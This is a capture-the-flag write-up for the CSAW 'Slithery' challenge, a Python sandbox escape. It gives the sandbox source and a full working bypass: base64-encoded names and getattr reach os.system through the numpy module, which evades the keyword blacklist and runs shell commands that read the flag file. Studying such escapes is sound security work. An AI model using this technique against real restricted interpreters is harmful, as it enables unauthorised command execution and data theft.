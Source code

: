 # Slithery

## Problem description

Setting up a new coding environment for my data science students. Some of them
are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
help test this before I use it for my class? Two sandboxes should be better
than one...

```nc pwn.chal.csaw.io 5011```

[sandbox.py](https://ctf.csaw.io/files/f273beef210bb77ed37ab74d82cb9799/sandbox.py?token=eyJ1c2VyX2lkIjo1MzYzLCJ0ZWFtX2lkIjo1MzI3LCJmaWxlX2lkIjo3NDMwfQ.X14Svg.zXKY8HMMgjM64swHwOaCZeUN5aE)

Category: pwn. Points: 100.

### sandbox.py
```
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

## Personal note
First time solving a pwn challenge. It was fun to do a python RCE challenge,
and I also learned some new things about the python language.

## Tools
* python3 interpreter

## Solving the challenge
This is a coding environment that accepts python commands. However, there is
a blacklist, meaning a lot of our input will not be accepted. We need to get
around the blacklist to execute the commands that will let us read the flag.

This would be the naive approach (without the blacklist):
```
>>> import os
>>> # List files in current directory, hopefully the flag is there
>>> os.system("ls")
>>> # Assuming the flag is located in flag.txt
>>> os.system("cat flag.txt") # Output file content
```

Connecting via netcat: `nc pwn.chal.csaw.io 5011`

```
EduPy 3.8.2
>>> import os
Exception: not allowed!!
>>> import
Exception: not allowed!!
>>> os
Exception: not allowed!!
>>> system
Exception: not allowed!!
```

Thus, we can not import modules the traditional way, and the os keyword is blacklisted.
So we need to find another way to get the flag. Examining sandbox.py gives
us some hints. We have access to the script variables from the coding environment,
but the easiest way to examine how the code works (without being bothered by
the blacklist) is to paste it into our own python3 interpreter:

```
>>> uOaoBPLLRN = open("sandbox.py", "r")
>>> uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
>>> ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
>>> AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
>>> bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
>>> uOaoBPLLRN.close()
>>> HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
>>> RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))

# Examining variables
>>> print(AAnBLJqtRv)
base64
>>> print(bAfGdqzzpg)
b64decode
>>> print(HrjYMvtxwA)
<function b64decode at 0x7f2dfcadf2f0>
>>> print(RMbPOQHCzt)
<module 'numpy' from PATH+'/__init__.py'>
```

Now we know we can b64decode strings using the HrjYMvtxwA variable. This could
be a way to circumvent the blacklist. We also have access to the numpy module.

We can examine the numpy module further in our own python3 interpreter:
```
>>> print(RMbPOQHCzt.__dict__)
```

This module has a lot of attributes. For instance, I noticed that the sys
module is exposed through the numpy module.
```
>>> print(RMbPOQHCzt.sys)
<module 'sys' (built-in)>
```

So let's see if the os module is also exposed:
```
>>> print(RMbPOQHCzt.os)
<module 'os' from PATH+'os.py'>
```

This looks really promising. However, we still have the problem that we can not access
the os property directly from the coding environment, since the word "os" is blacklisted. To get around this restriction, we can first b64encode the word, and then b64decode it.
The problem then is that we will only have access to the word "os" as a string.
It is not possible to call a method using a string when using dot notation.

```
>>> print(RMbPOQHCzt."os")
  File "<stdin>", line 1
    >>> print(RMbPOQHCzt."os")
     ^
SyntaxError: invalid syntax
```

Actually, sandbox.py uses an alternative approach:
```
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
```

Let's find out more:
```
>>> help(getattr)

Help on built-in function getattr in module builtins:

getattr(...)
    getattr(object, name[, default]) -> value

    Get a named attribute from an object; getattr(x, 'y') is equivalent to x.y.
```

Using `getattr`, it should be possible to access the os attribute through a string.

Let's craft our solution in our own interpreter before trying it in the coding environment:
```
>>> base64.b64encode(b'os')
b'b3M='
>>> base64.b64encode(b'system')
b'c3lzdGVt'
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls") # Equivalent to os.system("ls")
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt") # Assuming flag is in flag.txt

```

Connecting to the coding environment:
```
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls")                      
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
>>>
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt")
flag{y4_sl1th3r3d_0ut}
```

Finally, we obtain the flag: \
`flag{y4_sl1th3r3d_0ut}`
